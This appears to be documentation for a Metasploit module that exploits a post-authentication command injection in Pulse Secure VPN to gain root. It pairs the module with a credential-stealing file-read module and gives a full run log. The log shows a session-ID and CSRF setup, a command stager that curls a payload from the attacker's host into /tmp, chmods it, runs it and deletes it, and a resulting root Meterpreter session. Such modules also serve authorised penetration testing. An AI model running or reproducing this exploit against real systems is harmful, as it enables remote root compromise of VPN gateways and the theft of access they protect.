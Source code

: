 ## Introduction

This module exploits a post-auth command injection in the Pulse Secure
VPN server to execute commands as root. The env(1) command is used to
bypass application whitelisting and run arbitrary commands.

Please see related module `auxiliary/gather/pulse_secure_file_disclosure`
for a pre-auth file read that is able to obtain plaintext and hashed
credentials, plus session IDs that may be used with this exploit.

A valid administrator session ID is required in lieu of untested SSRF.

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Options

**SID**

Set this to a valid administrator session ID. Typically retrieved using
the `auxiliary/gather/pulse_secure_file_disclosure` module.

## Usage

```
msf5 exploit(linux/http/pulse_secure_cmd_exec) > set sid 676f5f892e8c4a6419f10564f9e9d857
sid => 676f5f892e8c4a6419f10564f9e9d857
msf5 exploit(linux/http/pulse_secure_cmd_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:[redacted]
[+] Setting session cookie: DSID=676f5f892e8c4a6419f10564f9e9d857
[*] Obtaining CSRF token
[+] CSRF token: 6b0e020e1de8c68c043ea0e4f663b7a5
[*] Executing Linux Dropper target
[*] Using URL: https://0.0.0.0:[redacted]/HSEjp77
[*] Local IP: https://[redacted]:[redacted]/HSEjp77
[*] Generated command stager: ["curl -kso /tmp/qlUqDxCU https://[redacted]:[redacted]/HSEjp77", "chmod +x /tmp/qlUqDxCU", "/tmp/qlUqDxCU", "rm -f /tmp/qlUqDxCU"]
[*] Executing command: env /home/bin/curl -kso /tmp/qlUqDxCU https://[redacted]:[redacted]/HSEjp77
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[*] Client 127.0.0.1 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.19.7 OpenSSL/1.0.1h zlib/1.2.3 libidn/1.18) requested /HSEjp77
[*] Sending payload to 127.0.0.1 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.19.7 OpenSSL/1.0.1h zlib/1.2.3 libidn/1.18)
[+] Payload execution successful
[*] Command Stager progress -  63.96% done (71/111 bytes)
[*] Executing command: env chmod +x /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[+] Payload execution successful
[*] Command Stager progress -  87.39% done (97/111 bytes)
[*] Executing command: env /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[*] Meterpreter session 1 opened (127.0.0.1:[redacted] -> 127.0.0.1:53200) at 2019-11-12 02:05:40 -0600
[!] Payload execution may have failed
[*] Command Stager progress - 102.70% done (114/111 bytes)
[*] Executing command: env rm -f /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[+] Payload execution successful
[*] Command Stager progress - 123.42% done (137/111 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : [redacted]
OS           :  (Linux 2.6.32-00486-gddd7e32-dirty)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
